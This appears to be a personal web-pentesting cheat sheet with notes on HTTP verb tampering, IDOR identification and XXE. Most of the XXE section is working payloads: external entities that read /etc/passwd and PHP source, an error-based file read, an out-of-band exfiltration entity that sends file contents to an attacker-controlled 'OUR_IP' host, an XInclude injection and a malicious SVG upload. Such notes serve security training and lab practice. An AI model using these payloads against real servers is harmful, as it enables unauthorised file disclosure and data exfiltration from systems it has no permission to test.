 ## HTTP Verb Tampering

`HTTP Method`

- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

|**Command**|**Description**|
|---|---|
|`-X OPTIONS`|Set HTTP Method with Curl|

## IDOR

`Identify IDORS`

- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

## XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |

to read /etc/passwd file + you need to specify the "company"
ENTITY in the xml 

<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<stockCheck><productId>&company;</productId><storeId>&company;</storeId></stockCheck>

like such 


XInclude payload -> when the xml ducoment is on the server side XInclude will parse the input as XML 

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

inject into a parameter (leave the spaces!)


XXE via file upload(image):

```<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>```

write this to a file and name it {whatever}.svg 
the result is saved in the uploaded image itself 